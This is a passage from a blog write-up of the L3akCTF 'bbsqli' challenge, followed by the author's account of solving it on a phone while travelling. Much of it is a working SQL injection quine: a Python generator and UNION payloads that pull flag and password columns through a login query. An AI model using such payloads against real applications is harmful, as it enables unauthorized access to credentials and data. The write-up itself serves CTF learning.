b.flag as email, a.password as password
from users a
join flags b on a.id-1 = b.id;--',CHAR(34),CHAR(39)),CHAR(36),'" union
select
  case a.username
    when "r4nd0m" then "r4ndom"
    else REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$")
  end username,
b.flag as email, a.password as password
from users a
join flags b on a.id-1 = b.id;--')
  end username,
b.flag as email, a.password as password
from users a
join flags b on a.id-1 = b.id;--
```

Let's input the first query and see that happen.

...

And the login still failed. What happened?


The `"` character at the first of our query somehow changed into `'` in the
`username` query result.

After some trial and error, I added some `REPLACE` function to change
`CHAR(39,32,117)` (string `' u`) into `CHAR(34,32,117)` (string `" u`).

This is the final solution and query.

```python
def quine(query: str) -> str:
    query = query.replace('$$', "REPLACE(REPLACE(REPLACE($$,CHAR(34),CHAR(39)),CHAR(39,32,117),CHAR(34,32,117)),CHAR(36),$$)")
    blob = query.replace('$$', '"$"').replace("'", '"')
    query = query.replace('$$', "'" + blob + "'")
    print(query)

username = 'c'
id = 2

q1 = f'''" union
select
  case username
    when 'r4nd0m' then 'r4ndom'
    else $$
  end username,
id as email, password
from users
where username='{username}';--'''

q2 = f'''" union
select
  case a.username
    when 'r4nd0m' then 'r4ndom'
    else $$
  end username,
b.flag as email, a.password as password
from users a
join flags b on a.id-{id-1} = b.id;--'''

quine(q1)
print('---')
quine(q2)
```

```sql
" union
select
  case username
    when 'r4nd0m' then 'r4ndom'
    else REPLACE(REPLACE(REPLACE('" union
select
  case username
    when "r4nd0m" then "r4ndom"
    else REPLACE(REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(39,32,117),CHAR(34,32,117)),CHAR(36),"$")
  end username,
id as email, password
from users
where username="c";--',CHAR(34),CHAR(39)),CHAR(39,32,117),CHAR(34,32,117)),CHAR(36),'" union
select
  case username
    when "r4nd0m" then "r4ndom"
    else REPLACE(REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(39,32,117),CHAR(34,32,117)),CHAR(36),"$")
  end username,
id as email, password
from users
where username="c";--')
  end username,
id as email, password
from users
where username='c';--
---
" union
select
  case a.username
    when 'r4nd0m' then 'r4ndom'
    else REPLACE(REPLACE(REPLACE('" union
select
  case a.username
    when "r4nd0m" then "r4ndom"
    else REPLACE(REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(39,32,117),CHAR(34,32,117)),CHAR(36),"$")
  end username,
b.flag as email, a.password as password
from users a
join flags b on a.id-1 = b.id;--',CHAR(34),CHAR(39)),CHAR(39,32,117),CHAR(34,32,117)),CHAR(36),'" union
select
  case a.username
    when "r4nd0m" then "r4ndom"
    else REPLACE(REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(39,32,117),CHAR(34,32,117)),CHAR(36),"$")
  end username,
b.flag as email, a.password as password
from users a
join flags b on a.id-1 = b.id;--')
  end username,
b.flag as email, a.password as password
from users a
join flags b on a.id-1 = b.id;--
```

The exploit is successful locally. Now let's use it in remote server.


Don't forget to change the ID in the next payload.


**Flag**

```txt
L3ak{__V3RY_B4S1C_SQLI}
```

## Closing And Some Story

Just like what I wrote above, on the Sunday I have trip to my relative's house
with my family. We travel using [KRL Commuterline][commuter].

In the morning, I already had the `Angry` binary file opened in ghidra. So
before leaving, I screenshot the code and transfer it to my phone.

I code the solution for `Angry` on the train. I switch back and forth lookng at
the screenshots and coding using vim on Termux. Maybe I can use Sympy to
simplify the solution, but I just doing it manually and solve the math equation
one by one at random.

After maybe 30 minutes, I got the flag and submit it. Then I decided to just
enjoy the trip and leave the CTF aside.

A few hours after arrived At my relative's house, I had nothing to do. I decided
to try solve some challenge using my phone. After skimming some problem, I found
`bbsqli`, I guess this is some kind of SQL injection challenge.

I started to solve it on 1 PM, about 6 hours before the event ended. If this is
not solvable, I just can skip and forget it, so nothing to lose.

The app is using Flask and sqlite, so I can run it locally using Termux on my
phone.

The challenge is pretty straightforward. I try some SQL injection query locally
to get the flag. Then I stuck when I must create SQL query that can result of
itself.

I searched about how to create self produce SQL query. Then I found about SQL
Quine, just like I explained above.

After that, most of my time is used to think about how to modify the `quine`
code that I got to fit my query. The code itself is changing the first character
`"` to `'` of my query and at that time I have no idea how to change it back.

I open four Termux sessions and multiple browser tab and switch it back and
forth. The annoying part of this process is copy paste part, because I have to
hold the screen and then drag and drop the text selection cursor multiple times.

I got the right solution about 30 minutes before the event ended, while on the
way home inside the train.

Here is the screenshot when I successfully get the flag after almost 6 hours.


After that I just fill the survey to get some bonus point.

This is quite new experience solving one CTF challenge for almost 6 hours using
android phone while on the trip.

Will I ever do something like this again?

Probably not.

[prevwriteup]: /blog/springforwardctf-writeup/
[L3akCTF]: https://ctftime.org/event/2322
[hastad]:
  https://en.wikipedia.org/wiki/Coppersmith%27s_attack#H%C3%A5stad's_broadcast_attack
[morehastad]:
  https://github.com/ashutosh1206/Crypton/blob/master/RSA-encryption/Attack-Hastad-Broadcast/README.md
[hastadcode]:
  https://github.com/ashutosh1206/Crypton/blob/master/RSA-encryption/Attack-Hastad-Broadcast/hastad_unpadded.py
[franklin]:
  https://en.wikipedia.org/wiki/Coppersmith%27s_attack#Franklin%E2%80%93Reiter_related-message_attack
[morefranklin]:
  https://github.com/ashutosh1206/Crypton/blob/master/RSA-encryption/Attack-Franklin-Reiter/README.md
[franklincode]:
  https://github.com/ashutosh1206/Crypton/blob/master/RSA-encryption/Attack-Franklin-Reiter/exploit.sage
[phpxor]:
  https://github.com/vichhika/CTF-Writeup/blob/main/GrabCON%20CTF%202021/Web/Basic%20Calc/README.md
[phpheredoc]:
  https://www.php.net/manual/en/language.types.string.php#language.types.string.syntax.heredoc
[otherwriteup]:
  https://gist.github.com/ChrisPritchard/50ef7a6c79a2386037a77ccc4709d1ff
[botwriteup]:
  https://medium.com/@khalyylgam/tek-up-mini-ctf-web-exploitation-28fee630b6b4#eda2
[IOCCC]: https://en.wikipedia.org/wiki/International_Obfuscated_C_Code_Contest
[quine]: https://en.wikipedia.org/wiki/Quine_(computing)
[ductfwriteup]: https://www.justinsteven.com/posts/2022/09/27/ductf-sqli2022/
[hkwriteup]: https://hackmd.io/@hoifanrd/SkIY868tD
[commuter]: https://en.wikipedia.org/wiki/KRL_Commuterline
